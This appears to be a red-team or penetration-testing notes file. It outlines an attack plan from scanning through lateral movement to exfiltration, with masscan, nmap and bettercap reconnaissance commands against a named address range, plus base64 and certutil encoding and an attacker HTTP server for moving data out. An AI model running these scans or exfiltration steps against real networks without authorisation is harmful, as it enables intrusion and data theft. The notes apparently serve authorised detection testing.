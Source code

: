 1) Scan for vuls
	1) Nessus
	2) OpenVAS

2) Discovery
	1) SYN
	2) Full Port scan
	3) Brute-force login
		1) Observe if ExtraHop able to identify any successful brute force
	4) Weak/vul service discovered/exploited/access
	5) Outside hour operation
	6) Keeping access alive (refreshing access of high priv account for later exploit)
3) Lateral Movement
4) Tunneling 
	1) SSH
	2) Custom port
5) Steganography (hide malicious data within images/docs)

6) Metasploit

7) A new device plugged into the network
	1) Raspberry pi with automated script to perform slow scans, resource discovery, slow credentials brute force
8) Within AD
	1) Identifying misconfigured assets/policies
9) Internal Network Pivoting
	1) Low priv account logged-in to another machine with High priv
10) Exfilration
	1) https://book.hacktricks.xyz/generic-methodologies-and-resources/exfiltration
11) Living-of-the-land
	1) Upload binary file



****

## Discovering hosts from the outside


```
masscan -p20,21-23,25,53,80,110,111,135,139,143,443,445,993,995,1723,3306,3389,5900,8080 199.66.11.0/24
```

TCP

```
masscan -p80,443,8000-8100,8443 199.66.11.0/24
```


UDP

```
nmap -sU -sV --version-intensity 0 -F -n <IP>/24
```


Passive Discovery

```
netdiscover -p
p0f -i eth0 -p -o /tmp/p0f.log
# Bettercap
net.recon on/off #Read local ARP cache periodically
net.show
set net.show.meta true #more info
```


## Scanning Host

TCP

```
# Nmap fast scan for the most 1000tcp ports used
nmap -sV -sC -O -T4 -n -Pn -oA fastscan <IP> 

# Nmap fast scan for all the ports
nmap -sV -sC -O -T4 -n -Pn -p- -oA fullfastscan <IP> 

# Nmap fast scan for all the ports slower to avoid failures due to -T4
nmap -sV -sC -O -p- -n -Pn -oA fullscan <IP>

#Bettercap Scan
syn.scan 192.168.1.0/24 1 10000 #Ports 1-10000
```

UDP

```
# Check if any of the most common udp services is running
udp-proto-scanner.pl <IP> 

# Nmap fast check if any of the 100 most common UDP services is running
nmap -sU -sV --version-intensity 0 -n -F -T4 <IP>

# Nmap check if any of the 100 most common UDP services is running and launch defaults scripts
nmap -sU -sV -sC -n -F -T4 <IP> 

# Nmap "fast" top 1000 UDP ports
nmap -sU -sV --version-intensity 0 -n -T4 <IP>

# You could use nmap to test all the UDP ports, but that will take a lot of time
```



## Exfiltration

Linux

```
base64 -w0 <file> #Encode file
base64 -d file #Decode file**
```

Windows

```
certutil -encode payload.dll payload.b64
certutil -decode payload.b64 payload.dll
```


HTTP connection from internal host to attacker

Python simple server

```
python3 -m http.server
```

Vic

```
wget .... <snipped>
```

1) hide message in images
2) Send to attacker / download image contained within the image